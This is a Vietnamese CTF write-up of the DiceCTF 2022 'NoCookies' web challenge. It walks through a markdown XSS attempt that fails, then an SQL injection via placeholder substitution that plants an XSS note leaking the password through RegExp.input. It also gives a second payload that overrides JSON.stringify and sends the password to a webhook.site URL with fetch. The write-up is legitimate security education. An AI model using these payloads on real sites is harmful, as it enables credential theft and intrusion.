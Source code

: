 ```yaml
---
title: NoCookies - DiceCTF2022
description: From DiceCTF2022
author: to^
date: 2022-04-08 13:07:00 +0700
categories: [WecSec, CTF, DiceCTF2022]
tags: [sqli, xss]     # TAG names should always be lowercase
img_path: /assets/img/
image:
 src: no_cookies/dicectf_logo.jpg
 alt: DiceCTF logo
 width: 1000
 height: 400
---
```

## _Link challenge_
<https://instancer.mc.ax/no-cookies>

<https://admin-bot.mc.ax/no-cookies>

## _Source code_
[Download](https://github.com/to016/to016.github.io/raw/main/assets/img/no_cookies/no-cookies.zip)

## _Sơ lược về trang web_
![overview](no_cookies/overview.png)
_overview_

- Sẽ có 2 chức năng: Register -> đăng kí account và create note -> tạo note
- Hoạt động không dựa trên cookie mà yêu cầu ta nhập lại username, password mỗi lần thực hiện một hành động nào đó.

Ở phần Create Note thì ta có 2 tùy chọn là Markdown hoặc là Plain.
![Create note](no_cookies/md_pl.png)
_create note option_

## _Phân tích_
### 1. XSS qua markdown option
Đọc qua source code thì thấy phần lớn các trang view.html, register.html đều thuộc dạng client side rendering
![markdown note handler](no_cookies/md_handler.png)
_markdown note hander_

Điều đáng chú ý ở đoạn code này là nếu note nhập vào có dạng `[blabla](test)` thì sẽ return thẻ a: 
`<a href = "test">blabla</a>`
Từ đây có thể dễ dàng khai thác XSS: ta dùng 2 thuộc tính autofocus và onfocus để trigger nó
```
<a href ="test" autofocus onfocus= "alert`1">
```
Điều đáng buồn là khi tạo note:
`(foo)[http://example.com" autofocus=autofocus onfocus="alert(password&#x29;]`
(ở đây escape `)` trở thành `&#x29;` để cho regex không làm mất đi `)` )
Gửi note và ấn view xuất hiện pop-up `undefined` 😟

Quay lại source code thấy rằng `const password`, được định nghĩa trong một anonymous arrow function và đoạn code được thực thi bên ngoài nó (đến từ HTML event handler)

Nhìn lại source, để ý cách validate password:
```js
const validate = (text) => {
return /^[^$']+$/.test(text ?? '');
}
```
Chỉ đơn giản là kiểm tra sao cho phải có tối thiểu 1 kí tự và không tồn tại `'` hoặc `$`
Mình tìm được một thứ thú vụ về [Regex](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/RegExp/input). Đại khái là: `RegExp.input` hoặc `RegExp.$_` sẽ trả về chuỗi match với regular expression.

Ví dụ:
```js
var re = /hi/g;
re.test('hi there!');
RegExp.input; // "hi there!"
re.test('foo'); // new test, non-matching
RegExp.$_; // "hi there!"
re.test('hi world!'); // new test, matching
RegExp.$_; // "hi world!"
```

Nhưng tất cả những `.replace()` call từ markdown parsing đã làm thay đổi giá trị của nó (overiding the password) vì vậy không thể khai thác thông qua markdown note -> chỉ còn lại con đường plain note.
### 2. XSS qua plain option
![database handler code1](no_cookies/db_handler1.png)
_database handler code1_

![database handler code2](no_cookies/db_handler2.png)
_database handler code2_

Ta có thể thấy trước khi chèn vào DB, note bị replace `<` và `>` gây khó khăn cho việc khai thác.

Nhưng `prepare function` đã giải quyết vấn đề này, hàm này đơn giản chỉ là replace **lần lượt** `:id, :username, :note, :mode` thành các giá trị tương ứng với nó.
```
{
id: "12345",
username: ":note",
note: ', :mode, 22, 0)-- ',
mode: '<img src=x onerror="alert(RegExp.input)">',
}
```

![sqli poc](no_cookies/sqli.png)
_sqli poc_

## _Khai thác_
![reponse](no_cookies/response.png)
_response_

![result](no_cookies/result.png)
_result_



## _Overwrite "document.querySelector" và "JSON.stringify"_
ở phần này mình sẽ đề cập tới một cách khai thác khác.

Cách này thì vẫn vận dụng sqli như cách trước để chèn xss note vào db nhưng khác ở chỗ xss note sẽ là:
```html
<svg><svg/onload="document.querySelector=function(){JSON.stringify=a=>fetch(`https://webhook.site/1e6c4248-b312-498b-93c3-073ffc762693?`+a.password),arguments.callee.caller()}">
```
Code này thực hiện việc rewrite lại hàm `document.querySelector` và `JSON.stringify`, sau đó gọi `arguments.callee.caller()`

![Exploit](no_cookies/exp.png)

- Line 59 thực hiện gán `innerHTML = Plain note` của ta đồng thời kích hoạt `onload` event của `svg` thực hiện việc ghi đè hàm `document.querySelector`.
- Line 60 gọi tới `document.querySelector` (lúc này là hàm mà ta đã định nghĩa lại): thực hiện ghi đè hàm 
`JSON.stringify` và đồng thời gọi tới `arguments.callee.caller()`.
- Có thể hiểu arguments.callee là chỉ hàm hiện tại đang thực thi -> `document.querySelector` và `arguments.callee.caller()` là hàm gọi tới nó, chính là cái `async ()` bao trọn tất cả code. Hay nói cách khác mục đích của `arguments.callee.caller()` là để chạy lại đoạn code từ 24 – 62 một lần nữa. Lúc này `JSON.stringify` nhận vào một object bao gồm password sẽ thực hiện fetch tới web hook của ta và boom flag!

> dice{curr3nt_st4t3_0f_j4v45cr1pt}
{: .prompt-info  }

## _Tham khảo_
<https://blog.bawolff.net/2022/02/write-up-for-dicectf-2022-nocookies.html>